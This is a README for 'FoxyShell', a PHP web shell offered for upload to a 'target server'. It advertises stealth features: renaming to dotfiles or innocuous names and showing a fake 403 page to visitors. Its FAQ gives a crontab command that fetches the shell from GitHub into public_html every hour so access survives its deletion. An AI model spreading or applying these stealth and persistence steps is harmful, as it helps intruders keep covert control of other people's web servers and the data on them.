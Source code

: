 # FoxyShell – Pure PHP Web Shell

**FoxyShell** is a Pure Shell with, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Copy File/Folder**      | Can copy files and folders very simply.                                      |
| **Bulk Copy**       | Can copy files and folders in bulk very easily, thanks to PHP                             |
| **Stealth**         | Can be hidden (e.g., rename to .sec.php), e.g. `foxypure.php` → `.sec.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `403 Forbidden`, The text color will change to orange when selected. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```, ```popen```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxypure.php``` to your target server, or hide it (e.g. ```.log.php```).  
---

## Installation

1. **Upload** the single file ```foxypure.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxypure.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **ETC**

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec```, ```popen``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell works using pure PHP, thanks to PHP, this Shell will still work even if EXEC has been disabled, no CMD/Command feature – but the file manager, upload, rename, etc., still work.

**Q**: How do I create folders that start with a dot?  
**A**: Just Click ```New folder```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: How can I always have access even if the shell file has been deleted?  
**A**: You can use crontab to automatically create a shell file in `/public_html/` every hour.

#
Example: (change ```name.php``` and ```username``` according to the server and file name you want)
```
(crontab -l 2>/dev/null; echo "0 * * * * /usr/bin/curl -s \"https://raw.githubusercontent.com/rubahilang/FoxyShell-Pure-PHP/refs/heads/main/foxypure.php\" -o /home/username/public_html/name.php") | crontab -
```
---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
